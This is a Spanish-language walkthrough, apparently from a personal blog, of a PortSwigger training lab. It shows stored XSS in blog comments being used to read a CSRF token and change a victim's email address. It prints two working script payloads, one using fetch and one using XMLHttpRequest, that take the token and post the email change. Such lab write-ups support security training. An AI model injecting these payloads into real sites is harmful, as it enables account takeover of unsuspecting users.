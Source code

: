 ```yaml
---
title: "Exploiting XSS to bypass CSRF defenses"
description: "Laboratorio de Portswigger sobre XSS"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XSS
tags:
  - Portswigger Labs
  - XSS
  - Exploiting XSS to bypass CSRF defenses
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `XSS almacenado` en la función de `comentarios del blog`. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `robar` un `token CSRF`, que luego podemos usar para `cambiar` la `dirección de correo electrónico` de alguien que vea los `comentarios` de la `publicación` del `blog`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las credenciales `wiener:peter`

---

## Guía de XSS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XSS` [https://justice-reaper.github.io/posts/XSS-Guide/](https://justice-reaper.github.io/posts/XSS-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-24/image_1.png)

Si pulsamos sobre `My account` nos podemos `loguear` con las credenciales `wiener:peter`

![](/assets/img/XSS-Lab-24/image_2.png)

Vemos que podemos `cambiar` nuestro `email`

![](/assets/img/XSS-Lab-24/image_3.png)

Si `capturamos` la `petición` con `Burpsuite` vemos que se envía el `email` y el `token CSRF`

![](/assets/img/XSS-Lab-24/image_4.png)

Si `inspeccionamos` el `código fuente` de la web también podemos ver el `token CSRF`

![](/assets/img/XSS-Lab-24/image_5.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-24/image_6.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-24/image_7.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-24/image_8.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags HttpOnly y Secure`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-24/image_9.png)

Si vemos el `código fuente` observamos que al `publicar` un `comentario` también existe un `token CSRF`

![](/assets/img/XSS-Lab-24/image_10.png)

Para obtener el valor del `token CSRF` podemos hacerlo con `document.getElementsByName('csrf')[0].value`

![](/assets/img/XSS-Lab-24/image_11.png)

Aunque no podamos enviar información a nuestro servidor porque tiene las `flags HttpOnly y Secure` podemos usar el `XSS` para hacer que el `usuario víctima cambie su email o publique un mensaje con sus cookies`

```
<script>
    window.addEventListener('DOMContentLoaded', function() {
        var token = document.getElementsByName('csrf')[0].value;

        var data = new FormData();
        data.append('csrf', token);
        data.append('email', 'evil@hacker.net');

        fetch('/my-account/change-email', {
            method: 'POST',
            mode: 'no-cors',
            body: data
        });
    });
</script>
```

Otra `alternativa` sería usar `XMLHttpRequest`

```
<script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get', '/my-account', true);
    req.send();

    function handleResponse() {
        var parser = new DOMParser();
        var doc = parser.parseFromString(this.responseText, 'text/html');
        var token = doc.querySelector('input[name="csrf"]').value;
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf=' + token + '&email=test@test.com');
    };
</script>
```
